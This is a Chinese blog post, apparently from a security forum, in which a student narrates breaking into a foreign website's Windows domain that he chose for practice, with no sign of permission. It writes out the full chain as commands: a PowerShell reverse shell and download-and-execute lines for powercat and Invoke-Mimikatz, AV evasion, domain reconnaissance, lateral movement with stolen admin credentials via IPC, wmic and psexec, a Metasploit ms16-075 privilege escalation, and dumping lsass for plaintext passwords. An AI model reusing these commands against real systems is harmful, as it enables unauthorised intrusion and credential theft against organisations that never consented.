我的一次内网域渗透实战
一、前言
我是一名热爱渗透测试的大三狗，前段时间想找个国外网站练手，正好碰到个域环境，我就把我的渗透思路记录下来了，分享给大家，
有错误的地方大佬们请指出来，毕竟我太菜了，希望大佬不要喷我。
二、CobaltStrike反弹shell
通过CNVD-C-2019-48814获取到shell，由于这个网站存在ETES杀毒软件，写入jsp木马或者利用vbs，certutil，powershell下载msf木马均会被杀，这里可以利用powershell反弹shell的形式在自己的vps上获取到一个shell。具体这个漏洞怎么利用我不说了，网上很多复现文章。
在cobaltstrike生成一段powershell代码，插入payload

执行payload就会在cs上获取到一个会话

将cobaltstrike上的会话移到metasploit上(怎么移植，网上有很多教程)
在metasploit上接收到shell
三、内网信息收集
查询域名称：net view /domain
查询域内计算机：net view /doamin:xx
查询域控制器时间：net time /domain
查询域管理用户：net group "domain admins" /domain
得到域控制主机名：net group "domain controllers" /domain
.....
获取域控主机名：net group "domain controllers" /domain
通过ping主机名获取域控ip地址

补丁情况：systeminfo

MS14-068打了补丁，无奈只能上mimikatz读取密码，但是有eset杀毒软件，一上传就被杀了，有没有免杀的mimikatz，幸好powershell没被拦截，通过Invoke-Mimikatz读取密码。
本地nc监听本地35602端口：
nc -lvvp 35602在burpsuite上执行powercat反弹shell
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip地址 -p 端口 -e cmd
Invoke-Mimikatz读取密码
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
成功读取到域控的管理员账号密码
四、拿下其他主机
有了域控账号密码，ip地址，就可以连接域控了，这里有很多种方法(ipc，wmic，p**ec，sc等等，这里我详细介绍3种方法)
1.IPC连接
net use \\ip地址\ipc$ 密码 /user:域控主机名\域控管理名将文件copy到其他服务器上：copy 1.bat \\ip地址\c$
获取服务器的时间：net time \\ip地址
设置1.bat执行时间：at \\ip地址 获取到的服务器时间 执行文件
删除ipc记录：net use \\ip\ipc$ /del2.wmic
wmic /node:ip地址 /user:用户名 /password:密码 process call create cmd.exe3.p**e
psexec \\ip地址 -u 用户名 -p 密码 cmd这里我通过wmic来连接，由于wmic没有回显
可以执行powershell反弹到cobaltstrike上，在移植到msf上面
wmic /node:ip地址 /user:用户 /password:密码 process call create "cmd.exe /c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('cs上生成的url'))\""

在域控中进行下信息收集，获取域成员机器
查询所有域控制器：dsquery server
查询域内计算机：dsquery computer
查询域用户：dsquery user
查询域用户所在域组：net user 域账号 /domain
查询域组所包含的用户：net group 域组名 /domain先获取域内计算机名

cobaltstrike上线0.4和0.7的主机

在对0.11主机进行连接时，ipc出现了错误代码86，指定的网络密码不正确。

应该是域管理限制了这个域用户登录这台主机，要其他域用户可能会登录，由于要system权限才可以利用mimikatz抓取密码，所以这里需要提权。
五、域控提权
systeninfo先查看下那些补丁
批量获取未打那些补丁
systeminfo>micropoor.txt&(for %i in ( KB3164038 KB3141780 ... ) do @Typemicropoor.txt|@find /i "%i"|| @echo %i you can fuck)&del /f /q /a micropoor.txt获取到 KB3164038(ms16-075)补丁没有打，metasploit提供了个exp
use exploit/windows/local/ms16_075_reflection_juicy
set payload windows/meterpreter/reverse_tcp
set session 2
set lhost ip地址
set lport 端口成功提到system权限，可以利用mimikatz读取密码了。

由于域控上存在eset杀软，可以通过procdump+mimikatz读取密码
先下载procdump到域控上
certutil.exe -urlcache -split -f http://xxx.xxx.xxx.xxx/procdump64.exe
执行：
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
将lsass.dmp下载本地利用mimikatz读取出密码明文(两部操作都需要管理员权限)
download C:/Windows/system32/lsass.dmp
下载到本地之后，mimikatz执行：
mimikatz.exe "sekurlsa::minidump lsass.dmp""sekurlsa::logonPasswords full" > 1.txt
读取到5个用户明文，这里我只给一张图吧


最后登录0.11那个地址，由于cobaltstrike一直都不上线，我就采用的nc反弹
六、后记
渗透到这里，之后就不想搞了，希望这个对刚入门内网渗透的朋友们有帮助，希望大佬们看了不要喷我

推荐阅读：
文章来源：ichunqiu社区
作者：佳哥
如有侵权，请联系删除